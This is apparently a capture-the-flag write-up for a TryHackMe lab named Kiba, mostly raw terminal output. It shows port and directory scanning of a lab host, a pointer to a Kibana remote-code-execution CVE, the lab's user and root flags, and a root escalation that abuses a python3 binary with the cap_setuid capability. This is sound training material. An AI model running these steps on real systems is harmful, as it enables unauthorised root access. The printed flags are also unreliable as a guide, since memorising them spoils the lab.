 link: https://tryhackme.com/room/kiba
## Enumeration
<code>
  
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.124.166 -x .txt,.php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2024/02/16 02:48:08 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1291]
/server-status        (Status: 403) [Size: 278] 
                                                
===============================================================
2024/02/16 03:43:29 Finished
===============================================================
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ nmap  -p- -Pn 10.10.124.166
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-16 03:57 CST
Nmap scan report for 10.10.124.166
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent

Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds

## found Kibana Version: 6.5.4
link: https://systemweakness.com/this-kibana-vulnerability-can-give-you-rce-in-a-snap-kibana-cve-2019-7609-7de49112139e

kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
kiba@ubuntu:/home/kiba$ THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}: command not found
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:/home/kiba$ 

## Privilage Escalation 

iba@ubuntu:/$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

kiba@ubuntu:/home/kiba$ ls -la
total 110664
drwxr-xr-x  6 kiba kiba      4096 Mar 31  2020 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt

kiba@ubuntu:/home/kiba$ cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -la
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Mar 31  2020 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3

kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'   
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
pwd          
/home/kiba/.hackmeplease
cd /root
ls
root.txt
ufw
cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

</code>
